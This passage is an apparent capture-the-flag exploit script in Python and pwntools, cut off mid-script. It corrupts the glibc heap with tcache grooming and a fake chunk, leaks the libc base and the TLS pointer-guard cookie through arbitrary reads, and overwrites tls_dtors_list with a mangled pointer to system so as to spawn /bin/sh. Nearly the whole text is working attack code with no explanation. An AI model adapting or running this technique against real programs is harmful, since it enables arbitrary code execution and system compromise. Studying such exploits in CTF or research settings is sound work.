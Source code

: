 ```python
    for i in range(0, 7):
        edit_add_entry(b"elo", b"!"*0x8)
    
    for i in range(0, 7):
        edit_del_entry(b"elo")

    fake_chunk = p64(0x0)
    fake_chunk += p64(PREV_SIZE)
    fake_chunk += p64(heap_leak - FAKE_OFFSET)
    fake_chunk += p64(heap_leak - FAKE_OFFSET)
    fake_chunk += p64(0x0)
    fake_chunk += p64(0x0)

    # Writing fake chunk in getline() buffer
    edit_add_entry(b"team", b"J"*0x11b + fake_chunk)
    
    # TRIGGER VULN
    # Free the overflowed chunk and trigger consolidation
    edit_del_entry(b"token")
    
    # Empty the 0x20 and 0x30 tcache
    for i in range(0, 7):
        edit_add_entry(b"elo", b"K"*0xf0)

    # Alloc an entry_t (0x20) inside the getline() chunk
    edit_add_entry(b"token", b"L"*0x8)

    # Place the 0x160 chunk in tcache to permit the overflow of the chunk in getline
    edit_del_entry(b"team")

    primitives = True
    
    libc_leak = aarb_read(heap_leak - LIBC_ARENA_OFFSET)
    
    libc_leak = int.from_bytes(libc_leak.partition(b"[PLAYER]\n")[2][:6], "little")
    libc.address = libc_leak - 0x21ace0

    log.info("Libc Arena leak : " + hex(libc_leak))
    log.info("Libc base : " + hex(libc.address))

    tls_base = libc.address - 0x28c0
    tls_dtors_list_addr = tls_base - 0x58

    tls_cookie = aarb_read(tls_base + 0x30)
    tls_cookie = int.from_bytes(tls_cookie.partition(b"[PLAYER]\n")[2][:8], "little")
    
    log.info("Leaking TLS cookie : " + hex(tls_cookie))
    log.info("@tls_dtors_list : " + hex(tls_dtors_list_addr))

    system = libc.sym["system"]
    binsh = next(libc.search(b"/bin/sh\x00"))

    log.info("@system : " + hex(system))
    log.info("@/bin/sh : " + hex(binsh))
    
    # Writing to tls_dtors_list
    log.info("Writing to : " + hex(tls_dtors_list_addr))
    aarb_write(tls_dtors_list_addr, p64(tls_dtors_list_addr + 64), 8)
    
    log.info("Writing to : " + hex(tls_dtors_list_addr + 64))
    aarb_write(tls_dtors_list_addr + 64, p64(rol((system ^ tls_cookie), 0x11, 64)), 8)

    log.info("Writing to : " + hex(tls_dtors_list_addr + 72))
```